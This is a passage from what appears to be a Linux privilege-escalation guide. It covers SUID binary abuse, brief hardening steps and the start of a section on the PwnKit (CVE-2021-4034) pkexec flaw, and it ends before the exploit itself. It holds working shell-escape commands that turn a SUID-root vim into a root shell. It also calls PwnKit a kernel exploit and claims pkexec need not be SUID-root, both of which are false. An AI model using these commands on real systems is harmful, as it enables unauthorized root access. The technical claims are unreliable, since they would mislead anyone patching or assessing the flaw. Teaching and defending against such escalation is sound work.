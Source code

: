 Once executed:

```bash
id
# uid=0(root) gid=0(root) groups=0(root)
```

The attacker now has a root shell.

### 1.4 Exploitable SUID Binary Example: `vim`

If `vim` or `vimdiff` is SUID-root:

```bash
vim -c ':!sh'
# or
vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

### 1.5 Defensive Hardening

To remove SUID bits from non-essential binaries:

```bash
chmod u-s /usr/bin/find /usr/bin/vim /usr/bin/nmap
```

To monitor changes to SUID permissions:

```bash
auditctl -w / -p wa -k suid_changes
```

---

## **2. Kernel Exploit: CVE-2021-4034 (PwnKit)**

### 2.1 Vulnerability Overview

* **Vulnerable Component**: `pkexec` (from the `polkit` package)
* **CVE**: 2021-4034 (PwnKit)
* **Severity**: High (CVSS Score 7.8)
* **Impact**: Local privilege escalation to root
* **Cause**: `pkexec` fails to sanitize its environment before executing

The vulnerability is universally exploitable on default Linux configurations and does not require the `pkexec` binary to be SUID-root for success.

### 2.2 Verification of Target

Check for the presence of `pkexec` and its permissions:

```bash
which pkexec && ls -l $(which pkexec)
```

Output should resemble:
